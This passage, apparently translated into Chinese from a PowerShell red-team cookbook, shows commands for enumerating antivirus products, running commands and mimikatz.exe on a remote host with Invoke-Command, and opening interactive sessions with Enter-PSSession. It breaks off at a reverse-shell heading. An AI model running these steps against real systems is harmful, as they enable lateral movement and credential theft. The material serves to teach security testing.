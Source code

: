 你想列出当前系统上安装的所有 AV 产品。

#### 解决方案

你可以使用 WMI/CIM 枚举所有已安装的 AV 产品：

```
> Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntiVirusProduct
```

## 横向移动

一旦获得初步控制，红队通常会尝试从一个主机横向移动到另一个主机，探索并利用网络中的其他目标。横向移动使攻击者能够探索网络、提升权限、访问有价值的资源，并最终控制关键系统或数据。

### 在远程机器上执行单个命令或二进制文件

你想在远程机器上执行单个命令或二进制文件。

#### 解决方案

要在远程（或本地）机器上执行单个命令或二进制文件，可以利用`Invoke-Command`：

```
> Invoke-Command <ip address or hostname> {<scriptblock/binary>}
```

以下示例展示了如何在远程主机`PSSec-PC01`上执行`Get-Process` cmdlet 和`mimikatz.exe`二进制文件：

```
> Invoke-Command PSSec-PC01 {Get-Process}
> Invoke-Command PSSec-PC01 {C:\tmp\mimikatz.exe}
```

如果你想对一个 IP 地址使用`Invoke-Command`，确保远程主机的 IP 已出现在`TrustedHosts`中，并且已配置为远程访问。

### 启动远程交互式 PowerShell 会话

你想启动一个远程 PowerShell 会话，在该会话中你可以交互式地运行 PowerShell 命令。

#### 解决方案

你可以使用`Enter-PSSession`来启动一个交互式远程 PowerShell 会话：

```
Enter-PSSession <ip address or hostname>
```

在这种情况下，我们将建立到远程主机`PSSec-PC01`的 PowerShell 会话：

```
> Enter-PSSession PSSec-PC01
```

## 命令与控制（C2）

在这个阶段，红队员正在尝试与受害主机进行通信以控制它们。

### 打开反向 Shell
